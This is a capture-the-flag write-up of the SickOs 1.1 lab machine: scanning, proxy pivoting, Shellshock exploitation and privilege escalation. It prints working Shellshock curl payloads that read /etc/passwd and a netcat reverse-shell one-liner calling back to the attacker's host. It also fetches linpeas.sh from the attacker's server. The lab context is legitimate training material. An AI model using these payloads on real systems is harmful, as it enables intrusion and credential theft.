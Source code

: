 ```yaml
---
layout: default
title : muzec - SickOs 1.1 Writeup
---
```


![Image](https://imgur.com/696H8mc.png)

We always start with an nmap scan.....

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 05:02 EDT
Nmap scan report for 172.16.109.131
Host is up (0.00050s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.57 seconds
```

Just 2 open ports and port 8080 is closed but we are having some strange port which is port 3128 Http-Proxy Squid Http proxy 3.1.19 cool let do some research on it.

A exposed Squid proxy will usually allow an attacker to make requests on their behalf. 

If misconfigured, this may give the attacker information about devices that they cannot normally reach. For example, an attacker may be able to make requests for internal IP addresses against an open Squid proxy exposed to the Internet, therefore performing a port scan against the internal network. The `auxiliary/scanner/http/open_proxy` module can be used to test for open proxies, though a Squid proxy does not have to be on the open Internet in order to allow for pivoting (e.g. an Intranet Squid proxy which allows the attack to pivot to another part of the internal network). 

This module will not be able to scan network ranges or ports denied by Squid ACLs. Fortunately it is possible to detect whether a host was up and the port was closed, or if the request was blocked by an ACL, based on the response Squid gives. 

This feedback is provided to the user in meterpreter `VERBOSE` output, otherwise only open and permitted ports are printed. 

![Image](https://imgur.com/PrB1vZ2.png)

Now let hit exploit.

![Image](https://imgur.com/pdlVDGQ.png)

Cool seems we have port 80 alive now let use foxyproxy to check it in our browser.

![Image](https://imgur.com/h85lYOn.png)

Select the new proxy we just created.

![Image](https://imgur.com/NQZNzZz.png)

Now let try to access the IP now and boom we are in.

![Image](https://imgur.com/X6oIfEd.png)

Now let scan it with Nikto using `nikto -h 172.16.109.131 --useproxy 172.16.109.131:3128` .

![Image](https://imgur.com/bpmSNTh.png)

Going through the output something interesting came up `/cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability` really let confirm it first.

`curl --proxy 172.16.109.131:3128 -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://172.16.109.131/cgi-bin/status`

And boom we have the passwd file.

![Image](https://imgur.com/ZLDP8gp.png)

Now let try and get a reverse shell with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` Note edit the port and IP and also start an ncat listener.

`curl --proxy 172.16.109.131:3128 -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.109.1 4444 >/tmp/f'" http://172.16.109.131/cgi-bin/status`

And we should have our shell back to our terminal.

![Image](https://imgur.com/c9gnf5S.png)

Now let spawn a TTY shell `python -c 'import pty; pty.spawn ("/bin/bash")'`  and we are good to go without wasting to much of time i get linpeas.sh on to the target machine.

![Image](https://imgur.com/M8jirGi.png)

![Image](https://imgur.com/i7j8Q2M.png)

`wget 172.16.109.1:8000/linpeas.sh`

`chmod +x linpeas.sh`

Now let it fly and wait for the output.

![Image](https://imgur.com/s0PERvq.png)

Now let go through it so i found a config file probably some MYSQL credentials but let check it out.

![Image](https://imgur.com/JSwbRbU.png)

Cool some juicy credentials let try it.

![Image](https://imgur.com/xmJQJzT.png)

So i use it to log into MYSQL but nothing ineteresting in it so i try use the password for sickos yes password reuse is possible.

![Image](https://imgur.com/zaiQ825.png)

Oh yes we are in let check`sudo -l` maybe it our lucky day.

![Image](https://imgur.com/UoY45oI.png)

Ahhh yes it is our luckdy and we are root let read the flag in the root directory.

![Image](https://imgur.com/f0xTAid.png)

Box rooted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


